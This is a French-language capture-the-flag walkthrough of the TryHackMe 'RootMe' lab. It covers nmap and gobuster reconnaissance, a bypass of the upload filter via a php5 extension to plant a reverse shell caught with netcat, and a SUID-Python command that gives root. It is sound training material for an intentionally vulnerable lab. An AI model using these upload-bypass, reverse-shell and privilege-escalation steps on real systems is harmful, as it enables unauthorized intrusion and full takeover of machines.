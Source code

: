 ```yaml
---
title: RootMe
tags: [TryHackMe, Facile, Linux, Apache]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/rrootme>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur Apache](#analyse-du-serveur-apache)
* [Elevation de privilèges](#elevation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A rootme.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 14:12 CEST
Nmap scan report for rootme.thm (10.10.156.223)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/12%OT=22%CT=1%CU=42224%PV=Y%DS=2%DC=T%G=Y%TM=670
OS:A67BC%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%T
OS:I=Z%CI=Z%II=I%TS=D)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=
OS:M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4
OS:B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   31.33 ms 10.9.0.1
2   31.84 ms rootme.thm (10.10.156.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.37 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en lumière la présence de 2 ports ouverts : un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur {% include dictionary.html word="HTTP" %} Apache en version 2.4.29 sur le port 80.

## Analyse du serveur Apache

```bash
gobuster dir -u http://rootme.thm -w /usr/share/wordlists/dirb/common.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...expurgé pour brièveté...]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

L'outil {% include dictionary.html word="gobuster" %} nous permet d'identifier une page *panel* et une page *uploads*.

Pour l'instant, la page *uploads* est vide, et la page *panel* nous permet de téléverser des fichiers.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_panel.png" caption="Possibilité d'uploader des fichiers" %}

Nous tentons de téléverser une page {% include dictionary.html word="PHP" %} permettant d'obtenir un [*{% include dictionary.html word="reverse-shell" %}*](https://github.com/pentestmonkey/php-reverse-shell), mais sans succès : Il y a un filtrage sur le type de fichiers autorisés.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_interdit.png" caption="Upload de fichiers PHP interdit" %}

Nous utilisons l'outil d'exploitation web **Burp Suite** afin de trouver un contournement possible à la limitation, et nous parvenons à uploader le *{% include dictionary.html word="reverse-shell" %}* en ajoutant un chiffre à la fin de l'extension, indiquant la version de *{% include dictionary.html word="PHP" %}* à utiliser.

Le *{% include dictionary.html word="reverse-shell" %}* proposé par **pentestmonkey** nécessitant une version supérieure à 4, et la version actuelle étant la 8, nous nous sommes contenté de tester les valeurs de 4 à 8.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_intruder.png" caption="Upload de plusieurs versions php avec succès" %}

Nous avons à présent téléverser plusieurs versions de notre *{% include dictionary.html word="reverse-shell" %}*, il ne nous reste plus qu'à préparer un port en écoute avec {% include dictionary.html word="Netcat" %}, puis à nous rendre à la page *uploads* pour vérifier quelle(s) version(s) fonctionne(nt).

La version `php5` nous permet d'obtenir un shell fonctionnel.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.73] from (UNKNOWN) [10.10.117.180] 39092
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:38 up 9 min,  0 users,  load average: 0.00, 0.23, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Nous commençons par améliorer notre *reverse-shell* avec la commande suivante :

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

Puis nous recherchons le flag utilisateur

```bash
find / -iname user.txt -type f 2>/dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{y[...expurgé...]l}
```

## Elevation de privilèges

Cette épreuve est guidée, et nous sommes invités à trouver un fichier avec des permissions SUID. Ce type de permissions permet à n'importe quel utilisateur d'utiliser un programme avec les privilèges du propriétaire.

{%- gist fb795c271652c9004ad77f11be2b66db -%}

Nous utiliserons la commande ciblant les SUID (`-perm /4000`)

```bash
find / -user root -perm /4000 -exec ls -ldbh {} \; 2>/dev/null
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
```

Il est assez peu courant d'avoir des privilèges aussi élevé sur le binaire **Python**.

Le site [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) nous permet de trouver la commande nécessaire pour élever nos privilèges et devenir root.

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4#
```

Nous avons à présent les droits root sur la machine, nous pouvons terminer par trouver le flag **root.txt**

```bash
cat /root/root.txt
THM{p[...expurgé...]n}
```
